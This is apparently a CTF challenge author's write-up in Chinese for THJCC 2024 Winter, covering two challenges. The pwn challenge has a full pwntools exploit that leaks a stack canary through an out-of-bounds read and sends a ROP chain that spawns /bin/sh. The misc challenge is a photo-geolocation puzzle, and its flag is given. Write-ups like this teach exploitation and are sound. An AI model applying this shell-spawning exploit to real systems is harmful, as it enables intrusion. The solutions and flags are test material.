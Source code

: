```yaml
---
title: "THJCC 2024 Winter Writeup"
description: "THJCC 2024 Winter Writeup (Question designer)"
publishDate: "15 Dec 2024"
updatedDate: "25 Aug 2025"
tags: ["CTF", "writeup", "pwn", "misc"]
---
```


# CTF 比賽出題初體驗

這次擔任 `THJCC 第二屆` 的出題者  
算是我第一次正式出題的體驗
題目有不好的地方就請見諒

~~比賽前一天發現自己把題解刪掉了，害我連夜重寫一份 exploit~~

# pwn-TheBestAnime

## 題序

---
那似乎是ROP，  
這種攻擊天生單翼，  
需要Gadgets相互扶持依偎，  
否則無法翱翔天際，  
是種有缺陷的生物。  
但是，不知為何，  
我卻認為，  
這種生存方式是美好的。

---
"The ROP, also known as “the payload that shares wings,” only possesses one wing. Unless gadgets lean on each other and act as one, they’re incapable of flight. They’re imperfect, incomplete creatures. But, for some reason, their way of life, struck me as profoundly beautiful. It was beautiful, I felt."

`Author: Grissia`

---

## 檔案

- chal

## 想法

這題大概的解法就是在 `darling` 函式中有 `OOB` 可以 leak canary  
leak canary 之後可以在 `main` 最後 `gets` 構建 rop chain  

### Step 1

用 ida 直接反組譯後可以看到第一步就是要輸入 `Darling in the FRANXX`  

### Step 2

跳轉到 `darling` 函式後有一個很明顯的 `OOB`  
可以分別輸入 `14` `15` 來得到兩段 canary  

### Step 3

用剛剛得到的 canary 值就可以放心 overflow  
構建 rop chain 後就大功告成

## Exploit

```python
from pwn import *
import sys

context.log_level = "debug"
context.terminal = ["wt.exe", "wsl.exe"]
context.arch = "amd64"

exe = context.binary = ELF("./chal")

if len(sys.argv) == 1:
    r = process("./chal")
    if args.GDB:
        gdb.attach(r)
elif len(sys.argv) == 3:
    r = remote(sys.argv[1], sys.argv[2])
else:
    print("Usage: python3 {} [GDB | REMOTE_IP PORT]".format(sys.argv[0]))
    sys.exit(1)


r.sendlineafter(b'> ', b'Darling in the FRANXX')

r.sendlineafter(b'> ', b'15')
upper = r.recvline().decode().split()[1]
r.sendlineafter(b'> ', b'14')
lower = r.recvline().decode().split()[1]

canary = int(upper+lower, 16)
success(f"canary: {hex(canary)}")

"""
rax = 0x3b
rdi = /bin/sh\x00
rsi = 0
rdx = 0

0x0000000000434bbb : pop rax ; ret
0x0000000000433f95 : mov qword ptr [rsi], rax ; ret
0x000000000041fcf5 : pop rsi ; ret
0x00000000004571e7 : pop rbx ; ret
0x0000000000494253 : pop rdi ; ret
0x0000000000432f5b : mov rdx, rbx ; syscall
"""
pop_rax = 0x434bbb
mov_rsi_rax = 0x433f95
pop_rsi = 0x41fcf5
pop_rbx = 0x4571e7
mov_rdx_rbx = 0x432f5b
pop_rdi = 0x494253

rop = b''
rop += b'a'*56
rop += p64(canary)
rop += p64(0)
rop += p64(pop_rax)
rop += b'/bin/sh\x00'
rop += p64(pop_rsi)
rop += p64(0x4cccc0)  # somewhere writable
rop += p64(mov_rsi_rax)  # set /bin/sh
rop += p64(pop_rbx)
rop += p64(0)
rop += p64(pop_rax)  # set rax
rop += p64(0x3b)
rop += p64(pop_rdi)  # set rdi
rop += p64(0x4cccc0)
rop += p64(pop_rsi)
rop += p64(0)
rop += p64(mov_rdx_rbx)  # set rdx

r.sendlineafter(b'> ', rop)

r.interactive()
```

[TheBestAnime](https://github.com/Grissia/TheBestAnime)

# misc-Happy College Life

## 題序

Where is this place ???

把拍照位置的經緯度座標放到 `THJCC{}` 裡面，並且單位保留到分，像是 `24°59'57.8"N 121°19'34.4"E` 要被表示成 `THJCC{2459N,12119E}`

---
Put the found latitude and longitude into the format `THJCC{}` and keep the precision up to the minutes. For example, `24°59'57.8"N 121°19'34.4"E` should be submitted as `THJCC{2459N,12119E}`.
![secret_place](https://hackmd.io/_uploads/SJXKtiKVJe.jpg)

> Author: Grissia

## 檔案

- secret_place.jpg

---

## 想法

最明顯的是樹後面有一個超大的藍色金字塔  
放大圖片還可以看到垃圾桶上 Long Beach 的 logo  
而且題目名稱就是 `Happy College Life`  
可以推測這是某個大學裡的地點  

btw，這張照片是我去 `CSULB` 的時候在宿舍門口拍的  

## Flag

`THJCC{3346N,11807W}`